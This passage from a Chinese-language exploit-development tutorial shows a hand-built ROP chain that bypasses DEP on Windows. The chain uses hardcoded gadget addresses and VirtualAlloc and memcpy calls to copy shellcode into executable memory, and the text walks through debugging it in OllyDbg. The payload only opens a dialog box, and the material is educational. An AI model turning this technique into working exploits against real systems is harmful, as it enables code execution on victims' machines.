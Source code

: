 ```c
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    "\x5F\x78\xA6\x7C"//address of pop ecx retn
    "\x90\x90\x90\x90"
    "\x00\x00\x03\x00"//可执行内存空间地址,memcpy目标地址
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy 函数切入点; 
    ; 
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行到 memcpy 函数复制结束返回前暂停，观察内存状态。

如图 12.3.28 所示，执行完复制操作后，memcpy 函数在返回时 ESP 指向了我们 shellcode 中的某个位置，幸运的是这个位置还没有被占用，只是放置了填充字符。通过它周围的数据我们可以判断出这个位置位于 shellcode 中 ```POP POP RETN``` 指令地址和 memcpy 参数之间，并且紧挨着 memcpy 第一个参数，所以这个位置就很容易确定了，只要在这个位置填上申请的可执行内存空间起始地址，就可以转入该内存区域执行了。

<img src="images/09/memcpy函数返回前内存状态.png">

我们似乎还没有放置弹出对话框的机器码。通过图 12.3.28 中 memcpy 参数可以看出，复制操作的源内存起始地址为 0x0012FF00，这个位置也是 memcpy 函数的复制长度参数所在位置，所以只要在它后边放置对话框的机器码即可。按照以上分析重新布置一个完整的 shellcode，对于其中的一些填充我们稍后解释说明，如图 12.3.29 
